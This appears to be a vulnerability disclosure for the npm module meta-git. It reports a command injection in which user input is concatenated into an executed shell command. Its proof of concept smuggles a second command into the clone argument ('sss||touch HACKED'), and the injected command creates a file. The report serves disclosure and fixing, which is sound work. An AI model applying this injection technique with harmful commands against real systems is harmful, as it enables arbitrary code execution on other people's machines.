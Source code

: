 # Description

The `meta-git` module is vulnerable against `command injection` since the `user-supplied inputs` are concatenated with a command which is executed without validation.

# POC

1. Create a new directory and insert some test files:

```bash
mkdir tests
cd tests
touch test
touch secret
touch files
```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i meta-git -g # Install affected module
meta-git clone 'sss||touch HACKED' # *HACKED* file is created
```
4. Recheck the files: now `HACKED` has been created
